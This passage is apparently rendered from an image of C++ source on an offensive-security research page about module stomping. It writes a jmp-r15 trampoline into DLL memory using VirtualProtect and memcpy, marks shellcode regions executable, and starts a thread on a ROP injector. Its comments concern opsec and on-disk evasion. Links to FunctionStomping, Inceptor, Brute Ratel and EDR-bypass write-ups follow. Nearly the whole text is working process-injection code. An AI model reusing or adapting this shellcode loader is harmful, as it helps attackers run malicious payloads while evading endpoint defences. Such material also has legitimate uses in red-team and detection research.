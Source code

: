 ```cpp
    patch[1] = 0xBF;
    // Hton Trampoline Address
    patch[2] = target & 0x00000000000000ff;
    patch[3] = (target & 0x000000000000ff00) >> 8;
    patch[4] = (target & 0x0000000000ff0000) >> 16;
    patch[5] = (target & 0x00000000ff000000) >> 24;
    patch[6] = (target & 0x000000ff00000000) >> 32;
    patch[7] = (target & 0x0000ff0000000000) >> 40;
    patch[8] = (target & 0x00ff000000000000) >> 48;
    patch[9] = (target & 0xff00000000000000) >> 56;
    // jmp r15
    patch[10] = 0x41;
    patch[11] = 0xFF;
    patch[12] = 0xE7;

    DWORD oldProtect;

    // Making DLL memory writable
    VirtualProtectFunc((LPVOID)trampolineAddress, 13, PAGE_EXECUTE_READWRITE, &oldProtect);

    memcpyFunc((LPVOID)trampolineAddress, patch, 13);

    // Restore DLL protection
    VirtualProtectFunc((LPVOID)trampolineAddress, 13, PAGE_EXECUTE_READ, &oldProtect);

#ifdef USE_ISOLATED_MEMORY
    // Making the memory region RX
    // Copying shellcode in the HEAP (non-opsec safe) -> This is not backed up on disk
    VirtualProtectFunc(address, shSize, PAGE_EXECUTE_READ, &oldProtect);

    // Making the memory region RX
    // Copying shellcode in the HEAP (non-opsec safe) -> This is not backed up on disk
    VirtualProtectFunc(ropInjectorAddress, N_ROP_GADGETS * MOV_SPACE + 1, PAGE_EXECUTE_READ, &oldProtect);
#else
    VirtualProtectFunc(address, rxMemoryRegionSize, PAGE_EXECUTE_READ, &oldProtect);

#endif
    // Starting thread on the trampoline
    DWORD threadID;
    
#ifdef FREE

#ifdef _DEBUG
    printfFunc("Creating Thread... \n");
    HANDLE hThreadFree = CreateThreadFunc(NULL, 0, (LPTHREAD_START_ROUTINE)ropInjectorAddress, NULL, 0x00000000, &threadID);
#else
    HANDLE hThreadFree = CreateThreadFunc(NULL, 0, (LPTHREAD_START_ROUTINE)ropInjectorAddress, NULL, 0x00000000, &threadID);
#endif
    SleepFunc(1000);
#ifdef _DEBUG
    printfFunc("Created Thread: 0x%llx\n", (ULONG64)hThreadFree);
#endif

#ifdef SAVE_THREAD
    result = RegSetValueExFunc(hKey, (LPCWSTR)tiValue, 0, REG_DWORD, (CONST BYTE*) & threadID, sizeof(threadID));
#endif

#endif

```

[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/